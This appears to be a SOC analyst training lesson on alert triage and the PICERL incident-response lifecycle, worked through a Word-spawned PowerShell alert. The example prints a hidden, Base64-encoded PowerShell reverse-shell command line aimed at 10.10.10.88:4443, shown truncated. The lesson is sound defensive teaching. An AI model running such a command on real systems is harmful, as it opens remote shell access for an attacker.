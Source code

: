 ```yaml
---
layout: default
title: 06: The Anatomy of an Investigation
nav_order: 6
---
```


# Part 1: The First 5 Minutes: Triage and Prioritization

**Goal:** To learn how to perform "triage" on a new alert to quickly determine if it's a real fire, a false alarm, or something in between.

### Key Concepts (The Theory)

- **Triage:** The process of sorting new alerts based on severity and priority to ensure the most critical threats are handled first.
- **Alert Fidelity:** The trustworthiness of the alert source. An alert from your EDR for "Known Ransomware" is high-fidelity. An alert for "User logged in from a new country" is lower fidelity, as it could be legitimate travel.
- **Severity vs. Priority:**
  - **Severity:** How bad the event _could_ be (e.g., High, Medium, Low). This is often set by the tool.
  - **Priority:** The order in which _you_ should handle it. This is determined by the analyst, combining severity with business context.

### The Initial Triage Checklist

When a new alert hits your queue, you should quickly try to make an initial assessment. Run through these questions:

1.  **What is the alert?** (e.g., "PowerShell spawned from non-standard process," "Impossible travel detected.")
2.  **What is the asset?** Is it a domain controller, a web server, or a standard user's laptop? An alert on a critical server is always a higher priority.
3.  **Who is the user?** Is it a standard user, a developer, an executive (VIP), or a domain administrator? An alert on an admin account is extremely high priority because their credentials grant broad access.
4.  **What is the assigned severity?** (High, Medium, Low).

- **Analyst Tip:** The goal of triage is not to solve the case but to decide what to work on next. A `Medium` severity alert on a domain controller is a higher priority than a `High` severity alert on a test machine that's scheduled to be wiped tomorrow. Context is everything.

---

## Part 2: The Investigation Lifecycle (PICERL)

**Goal:** To use the industry-standard PICERL framework to structure an investigation from start to finish. PICERL stands for **P**reparation, **I**dentification, **C**ontainment, **E**radication, **R**ecovery, and **L**essons Learned.

### A Running Example: The Suspicious PowerShell Alert

Let's use a single alert and walk it through the lifecycle:
**The Alert:** `High Severity: powershell.exe spawned by WINWORD.EXE on workstation WKS-1337, user: bart.simpson`

---

### **Phase 1: Identification**

This is where you confirm if the alert is a **True Positive** (a real incident) or a **False Positive**. This phase uses a mini-loop of Observe-Orient-Decide-Act.

1.  **Observe (Gather the raw facts):**

    - **Host:** WKS-1337
    - **User:** bart.simpson
    - **Process:** `powershell.exe`
    - **Parent Process:** `WINWORD.EXE`
    - **From the EDR logs, you pull the full command line:** `powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQAwAC4AOAA4ACIALAA0ADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUA MwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAe...`

2.  **Orient (Give the facts context):**

    - The parent process is Word. This is highly suspicious. Word should not be launching PowerShell. This is a classic indicator of a malicious macro. **(T1566.001: Spearphishing Attachment)**
    - The `-enc` flag means the command is Base64 encoded. This is a common technique for **Obfuscated Files or Information (T1027)**.
    - You decode the Base64 string. It reveals a PowerShell reverse shell script trying to connect to IP `10.10.10.88` on port `4443`. This is a **Reverse Shell (T1059.001: PowerShell)**.
    - You check the destination IP `10.10.10.88`. It's an internal, non-routable IP. This suggests the attacker may already have a foothold inside the network and this is an attempt at **Lateral Movement (TA0008)**.

3.  **Decide (Form a hypothesis):**
    - This is a **True Positive**. The user likely opened a malicious Word document, which executed a macro to launch a PowerShell reverse shell, a common technique for **Execution (TA0002)**, attempting to connect to an internal C2 server.

---

### **Phase 2: Containment**

**Goal:** Stop the bleeding! Prevent the attacker from causing more damage.

- **Action:** Based on your decision, you take immediate action. Using your EDR console, you trigger the **"Isolate Host"** function for `WKS-1337`. This uses the EDR agent to block all network connections on the workstation _except_ for the connection back to the EDR management server, so you can still investigate it remotely.
- **Action:** You also temporarily disable the `bart.simpson` user account in Active Directory / Entra ID to prevent the attacker from using stolen credentials to log in elsewhere.

---

### **Phase 3 & 4: Eradication and Recovery**

**Goal:** Remove the attacker from the environment and restore the system to a known-good state. This is often handled by a different team.

- **Eradication:** The original malicious file (`phish.docx`) is deleted. Any other files or persistence mechanisms created by the attacker are removed.
- **Recovery:** The workstation is wiped and re-imaged from a clean, golden image. This is the only way to be 100% sure the attacker is gone. The user account is re-enabled with a new password.

---

### **Phase 5: Lessons Learned**

**Goal:** Improve your defenses so this doesn't happen again.

- A post-incident meeting is held. Questions to ask:
  - How did the malicious email get past our email security gateway?
  - Why was the user able to run macros?
  - Did our EDR alert quickly enough?
- **Outcomes:** You might create a new rule in the email filter to block similar attachments, or push a new policy to disable macros for most users.

---

## Part 3: Case Management and Escalation

**Goal:** To understand the importance of good documentation and know when to ask for help.

### A Good Case Note

Your notes should be clear enough that a teammate can pick up the investigation right where you left off.

> **14:32 UTC:** Initial alert triage. High-severity alert for PowerShell spawned from WINWORD.EXE on WKS-1337 (user: bart.simpson). Given the TTP, immediately began investigation.
>
> **14:35 UTC:** Pulled command line from EDR. Confirmed use of Base64 encoding (`-enc` flag).
>
> **14:37 UTC:** Decoded Base64 payload. Revealed PowerShell reverse shell attempting connection to internal IP `10.10.10.88:4443`.
>
> **14:38 UTC:** **Declared incident.** This is a True Positive.
>
> .
> **14:39 UTC:** **Containment:** Isolated host WKS-1337 via EDR console. Temporarily disabled user `bart.simpson` in AD.
>
> **14:40 UTC:** **Escalation:** Escalated ticket to Tier 2 Incident Response team for eradication and recovery. Notified SOC lead.

### When to Escalate

- As soon as you **declare an incident** (confirm a True Positive).
- If the alert involves a VIP user or a critical system (e.g., a domain controller).
- If you are about to take a significant action you are unsure about.
- If you are stuck for more than 15-20 minutes on the "Identification" phase. It's better to get a second pair of eyes than to let an attacker dwell in the network.
